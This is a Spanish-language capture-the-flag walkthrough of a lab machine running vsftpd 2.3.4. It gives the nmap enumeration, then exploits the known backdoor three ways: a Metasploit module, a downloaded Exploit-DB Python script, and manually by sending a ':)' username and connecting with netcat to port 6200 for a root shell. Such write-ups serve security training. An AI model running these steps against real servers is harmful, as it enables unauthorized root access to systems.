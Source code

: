 
![](img/Pasted%20image%2020250101095039.png#center)


## **Enumeración**

#### Escaneo de puertos

Realizamos un escaneo de puertos básico con **nmap** para identificar los puertos que están abiertos:
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

![](img/Pasted%20image%2020250101095829.png#center)

**Resultados del escaneo:**

| Puerto | Estado | Servicio |     |
| ------ | ------ | -------- | --- |
| 21/tcp | open   | ftp      |     |

Realizamos un segundo escaneo a los puertos abiertos, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p21 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

![](img/Pasted%20image%2020250101095909.png#center)



| Puerto | Estado | Servicio | Versión      |
| ------ | ------ | -------- | ------------ |
| 21/tcp | open   | ssh      | vsftpd 2.3.4 |

---


<h3><center> Análisis FTP (puerto 21)</center></h3>
Para enumerar bien el servicio `ftp`, siempre es aconsejable lanzar algunos script que tiene nmap por defecto, para localizar cuales son esos script, podemos ejecutar el comando.
```
locate .nse | grep "ftp"
```

![](img/Pasted%20image%2020250101101354.png#center)

###### **Explicación de los scripts:**
- **ftp-anon.nse:** Este script verifica si un servidor FTP permite el acceso anónimo. Es decir, si permite conectarse sin necesidad de un nombre de usuario y contraseña.
- **ftp-bounce.nse:** Este script intenta realizar un ataque de "bouncing" (rebote) en un servidor FTP. Este tipo de ataque se utiliza para intentar acceder a otros sistemas a través del servidor FTP como intermediario.
- **ftp-brute.nse:** Este script realiza un ataque de fuerza bruta contra un servidor FTP, intentando adivinar las credenciales de acceso (usuario y contraseña).
- **ftp-libopie.nse:** Este script verifica si el servidor FTP soporta el protocolo LIBOPIE, que es un protocolo de autenticación más antiguo y menos seguro.
- **ftp-proftpd-backdoor.nse:** Este script busca una puerta trasera específica en servidores FTP que utilizan el software ProFTPD. Esta puerta trasera podría permitir a un atacante obtener acceso no autorizado al servidor.
- **ftp-syst.nse:** Este script envía el comando "SYST" al servidor FTP para obtener información sobre el sistema operativo del servidor.
- **ftp-vsftpd-backdoor.nse:** Similar al anterior, este script busca una puerta trasera específica en servidores FTP que utilizan el software vsftpd.
- **ftp-vuln-cve2010-4221.nse:** Este script busca una vulnerabilidad específica (CVE-2010-4221) en servidores FTP, la cual podría permitir a un atacante ejecutar código arbitrario en el servidor.
- **tftp-enum.nse:** Este script enumera las opciones y capacidades de un servidor TFTP (Trivial File Transfer Protocol).
- **tftp-version.nse:** Este script intenta determinar la versión del servidor TFTP.



---
## Explotación


Buscamos si existe alguna vulnerabilidad para el protocolo *FTP* con esa versión.
```
searchsploit vsftpd 2.3.4
```

![](img/Pasted%20image%2020250101100129.png#center)


Vemos que no encontró dos `exploit`, para esta versión de `ftp`. Primero vamos a usar la de `metasploit`.

---
#### METASPLOIT

Vamos a realizar la enumeración con `metasploit`. Así que iniciamos `metasploit`
```
msfconsole
```

![](img/Pasted%20image%2020241231173916.png#center)

Buscamos de nuevo el exploit.
```
search vsftpd 2.3.4
```

![](img/Pasted%20image%2020250101100340.png#center)


Usamos el módulo
```
use 0
```

![](img/Pasted%20image%2020250101100413.png#center)


Mostramos las opciones
```
show options
```
![](img/Pasted%20image%2020250101100445.png#center)


Modificamos las opciones necesarios. En este caso solo debemos especificar la IP de la máquina vicitma.
```
set RHOSTS 172.17.0.2
```

![](img/Pasted%20image%2020250101100727.png#center)


Ejecutamos el exploit.
```
exploit
```

![](img/Pasted%20image%2020250101100928.png#center)

Obtuvimos el usuario `root`.

---


#### Python

Como vimos anteriormente, también teníamos un módulo en `python`. Vamos a realizar la explotación con ese módulo. Si volvemos a buscar los exploit relacionados con las versión del protocolo `FTP`, nos indica.
```
searchsploit vsftpd 2.3.4
```

![](img/Pasted%20image%2020250101100129.png#center)


Descargamos el exploit.
```
searchsploit -m 49757.py
```

![](img/Pasted%20image%2020250101101922.png#center)


Por comodidad voy a cambiarle el nombre.
```
mv 49757.py exploit.py
```

![](img/Pasted%20image%2020250101102024.png#center)

Ejecutamos el exploit
```
python3 exploit.py 172.17.0.2
```

![](img/Pasted%20image%2020250101102253.png#center)


Obtuvimos el usuario `root`.

---


#### Manualmente

Esta versión de `FTP` *vsftpd 2.3.4.*, tiene una vulnerabilidad curiosa y relativamente simple. Esta vulnerabilidad se aprovecha de una característica inesperada y poco convencional: **al introducir un simple emoticono ":)" en el campo de usuario al conectarse al servidor, se obtiene acceso a una shell con privilegios de root**.

**¿Cómo funciona?**

Al parecer, alguien modificó el código fuente original de vsftpd 2.3.4 de manera maliciosa. Esta modificación oculta un "backdoor" (puerta trasera) que se activa al introducir el emoticono en el campo de usuario. En lugar de iniciar sesión como un usuario normal, el servidor interpreta este símbolo como una señal para otorgar acceso a una shell con los máximos privilegios (root).

**¿Cómo se descubre esta vulnerabilidad?**

Esta vulnerabilidad se descubrió al realizar un escaneo de puertos y al intentar conexiones con diferentes valores en el campo de usuario. Al introducir el emoticono, se observó que se abría un nuevo puerto (6200) que proporcionaba acceso a una shell con privilegios de root.


## Explotación

Entramos al protocolo `FTP`. Y cuando nos pregunte por el usuario podemos `hola:)` y presionamos `ENTER` y cuando nos pregunte por la contraseña podemos cualquier cosa.
```
ftp 172.17.0.2
```

![](img/Pasted%20image%2020250101103204.png#center)


Se quedará un tiempo pensando como para intentar darnos acceso al `ftp`, pero si en otra terminal realizamos un escaneo de los puertos abiertos.
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

![](img/Pasted%20image%2020250101103341.png#center)


Vemos que encontramos un nuevo puertos abierto que antes no nos había dado información `nmap`. Por introducir un simple carácter como `:)`, pudimos ver como el puerto *6200* apareció. Para explotarlo utilizamos `netcat`, para conectarnos a este puerto.
```
nc 172.17.0.2 6200
```

![](img/Pasted%20image%2020250101103628.png#center)


Somo el usuario `root`.



